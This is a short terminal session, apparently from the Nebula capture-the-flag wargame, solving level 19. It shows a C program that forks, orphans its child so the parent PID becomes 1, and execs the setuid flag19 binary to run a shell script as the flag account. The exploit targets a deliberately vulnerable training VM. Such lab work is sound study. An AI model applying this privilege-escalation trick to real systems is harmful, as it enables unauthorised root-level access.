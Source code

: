 level19@nebula:/tmp$ cat out
You have successfully executed getflag on a target account
level19@nebula:/tmp$ cat run.sh
getflag > /tmp/out
level19@nebula:/tmp$ cat out
You have successfully executed getflag on a target account
level19@nebula:/tmp$ cat /home/level19/fork.c
#include <stdio.h>
#include <unistd.h>

int main(void){
  pid_t pid=fork();
  if(pid==0) /*child process*/
  {
        char *cmd = "/home/flag19/flag19";
        char *args[] = { "/bin/sh","-c","/tmp/run.sh"};

        sleep(3);
        printf("Pid: %d\n", getppid());
        execv(cmd,args);
        return 0;
  }
  else /*parent process*/
  {
        return 0;
  }
}
level19@nebula:~$ gcc fork.c
level19@nebula:~$ ./a.out
level19@nebula:~$ Pid: 1

level19@nebula:~$


